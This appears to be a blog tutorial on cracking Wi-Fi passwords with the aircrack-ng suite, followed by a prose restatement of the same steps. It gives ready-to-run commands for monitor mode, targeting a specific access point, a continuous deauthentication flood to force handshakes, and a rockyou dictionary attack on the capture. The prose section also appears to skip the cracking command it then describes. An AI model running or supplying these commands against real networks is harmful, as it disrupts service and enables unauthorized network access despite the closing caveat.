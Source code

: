 ```yaml
---
layout: layouts/post.njk
title: Wifi hacking with Airmon-ng
tags: 
    - hacking
    - linux
    - bash
    - blog
date: 2021-09-01
---
```


_Hack wifi routers, device broadbands and network stations. Don't hack other's devices._ 🌚

## Knowing basic info

1. Check the version of your OS

```bash
cat /etc/os-release
uname -a
```

2. See interfaces

```bash
ip addr
iwconfig
```

## Preparing

- kill processes

```bash
sudo airmon-ng check kill
```

- Start monitor mode

```bash
sudo airmon-ng start wlp2s0
```

- Verify that monitor mode is used

```bash
sudo airmon-ng
```

- You could also use iwconfig to check that interface is in monitor mode:

```bash
iwconfig
```

## Targeting

- Get the AP's MAC address and channel

```bash
sudo airodump-ng wlp2s0mon
```

- AP-MAC & channel - you need to select your own here:

```
ESSID: 90:9A:4A:B8:F3:FB
Channel used by AP for SSID: 2
```

## Attack
You need to open two separate bash windows for this task.

1st Window
: Make sure you replace the channel number and bssid with your own
: Replace hack1 with your file name like capture1 or something 

```bash
sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlp2s0mon
```

2nd Window - deauth attack
: Make sure you replace the bssid with your own

```bash
sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlp2s0mon
```

Use Wireshark to open hack file

```bash
wireshark hack1-01.cap
```

Filter Wireshark messages for EAPOL by typing `eapol`.

## Stopping the attack

- Stop monitor mode

```bash
airmon-ng stop wlp2s0mon
```

- Get a crack file with Rock you or another wordlist
- Make sure you have rockyou in text format (unzip file on Kali)
- Replace hack1-01.cap with your file name

```bash
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
```

---
👨‍💻
Discrete


---------------

Wireless networking has become an integral part of modern life, allowing us to connect to the internet from virtually anywhere. However, with the convenience of wireless comes the potential for security vulnerabilities. In this tutorial, we will walk through the steps of performing a simple wireless attack using Kali Linux, a popular distribution specifically designed for penetration testing and ethical hacking.

Before we begin, it's important to ensure that you have the necessary tools installed and your system is up to date. You can check the version of your operating system (OS) by using the command cat /etc/os-release. This will display the version and other information about your OS. You can also use the command uname -a to display information about your system's hardware and software environment.

Next, we need to identify the interfaces available on your system. You can do this using the command ip addr or iwconfig. These commands will display information about your network interfaces, including their names and configurations.

Before we can start the attack, we need to prepare our system. One important step is to kill any processes that may interfere with our wireless adapter. You can do this using the command sudo airmon-ng check kill. This will terminate any processes that may cause problems during the attack.

Once we have prepared our system, we can start the attack by putting our wireless adapter into monitor mode. Monitor mode allows the adapter to capture wireless packets without being associated with any particular network. To start monitor mode, use the command sudo airmon-ng start wlp2s0, replacing wlp2s0 with the name of your wireless adapter. You can verify that monitor mode is being used by running the command sudo airmon-ng, which will display a list of available interfaces and their modes. You can also use the command iwconfig to check that the interface is in monitor mode.

Now that we have our wireless adapter in monitor mode, we can begin targeting a specific wireless access point (AP). The first step is to get the AP's MAC address and channel. You can do this using the command sudo airodump-ng wlp2s0mon, which will display a list of available APs and their MAC addresses. Make note of the AP's MAC address and channel, as we will need them later.

With the AP's MAC address and channel in hand, we can now launch the attack. To do this, we will use two separate bash windows. In the first window, run the command sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlp2s0mon, replacing hack1 with a file name of your choosing, the channel number with the one for your target AP, and the BSSID (MAC address) with the one for your target AP. This command will capture wireless packets and save them to a file for later analysis.

In the second window, run the command sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlp2s0mon, replacing the BSSID with the one for your target AP. This command will send deauthentication packets to the AP, which will disrupt the connection between the AP and its clients.

Once the attack is complete, you can use Wireshark to open the captured packet file and analyze the packets. To do this, use the command wireshark hack1-01.cap, replacing hack1-01.cap with the name of your packet capture file.


The command will try to crack the password of the wireless network by running a dictionary attack, which involves trying to guess the password by trying every word in the wordlist. If the password is found in the wordlist, the command will output the password and exit. If the password is not found in the wordlist, the command will continue running until all words in the wordlist have been tried.

It is important to note that cracking the password of a wireless network is a violation of the network owner's security, and it is generally illegal to do so without permission. It is also important to use these tools responsibly and only on networks that you are authorized to test.